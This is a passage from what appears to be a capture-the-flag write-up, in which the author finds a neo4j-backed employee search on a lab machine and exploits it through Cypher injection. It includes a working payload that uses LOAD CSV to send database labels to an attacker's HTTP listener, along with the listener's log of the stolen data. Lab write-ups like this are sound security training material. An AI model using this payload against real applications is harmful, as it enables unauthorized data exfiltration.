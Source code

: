 Within the Employees tab, we can search for the names of employees.

<figure><img src="../../.gitbook/assets/image (55) (1) (3).png" alt=""><figcaption></figcaption></figure>

There's the port for `neo4j` open on the machine, so I assumed that some kind of query injection was next. Also, we can see the Tasks on the main dashboard page to verify this.

<figure><img src="../../.gitbook/assets/image (67) (3).png" alt=""><figcaption></figcaption></figure>

As usual, Hacktricks has a whole page to get us started.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j" %}

The injection via `neo4j` seems to work via sending a HTTP requests with the output to an external server. We can first use this command to extract some information about the database and its labels.

{% code overflow="wrap" %}
```
'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.5:5000/?label='+label as l RETURN 0 as _0 //

$ python3 -m http.server 5000
Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...
10.129.84.140 - - [26/Apr/2023 23:44:27] "GET /?label=user HTTP/1.1" 200 -
10.129.84.140 - - [26/Apr/2023 23:44:27] "GET /?label=employee HTTP/1.1" 200 -
10.129.84.140 - - [26/Apr/2023 23:44:27] "GET /?label=user HTTP/1.1" 200 -
10.129.84.140 - - [26/Apr/2023 23:44:27] "GET /?label=employee HTTP/1.1" 200 -
10.129.84.140 - - [26/Apr/2023 23:44:27] "GET /?label=user HTTP/1.1" 200 -
10.129.84.140 - - [26/Apr/2023 23:44:27] "GET /?label=employee HTTP/1.1" 200 -
10.129.84.140 - - [26/Apr/2023 23:44:27] "GET /?label=user HTTP/1.1" 200 -
10.129.84.140 - - [26/Apr/2023 23:44:27] "GET /?label=employee HTTP/1.1" 200 -
10.129.84.140 - - [26/Apr/2023 23:44:27] "GET /?label=user HTTP/1.1" 200 -
10.129.84.140 - - [26/Apr/2023 23:44:27] "GET /?label=employee HTTP/1.1" 200 -
```
{% endcode %}
